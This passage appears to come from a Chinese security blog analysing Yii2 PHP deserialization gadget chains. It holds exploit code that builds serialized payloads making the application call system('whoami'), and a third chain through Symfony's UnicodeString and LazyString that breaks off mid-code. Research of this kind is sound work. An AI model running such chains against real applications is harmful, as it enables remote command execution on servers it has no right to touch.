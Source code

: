     	class IndexAction{
        	public $checkAccess;
        	public $id;
        	public function __construct(){
            	$this->checkAccess='system';
            	$this->id='whoami';
        	}
    	}
	}
	namespace{

    	use yii\db\BatchQueryResult;

    	echo base64_encode(serialize(new BatchQueryResult()));
	}
	?>

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210923133104.png)

## 链三
连找了两个destruct，尝试下wakeup行不行。
全局搜下来wakeup看上去能用的就四个
这次找的是\vendor\symfony\string\UnicodeString.php中的wakeup。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210923133625.png)

百度一波normalizer_is_normalized这个函数，解释是检查所给的字符串是否是标准格式。老实说，这个调用toString我看了一会儿才反应过来是怎么一回事。。生疏了。

全局搜索toString，太多了，找不过来，直接参考了师傅们给的（有空一定要研究一下全局搜索的tricks：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210923142609.png)

value可控，又是一波无参方法，调用IndexAtion里的run方法即可。

	<?php
	namespace Symfony\Component\String{

    	use yii\rest\IndexAction;

    	class UnicodeString{
        	protected $string;
        	public function __construct(){
            	$Troy3e = new LazyString();
            	$this->string = $Troy3e;
        	}
    	}
    	class LazyString{
        	private $value;
        	public function __construct(){
            	$Troy3e1 = new IndexAction();
            	$this->value = [$Troy3e1,'run'];
        	}
    	}	
	}
	namespace yii\rest{
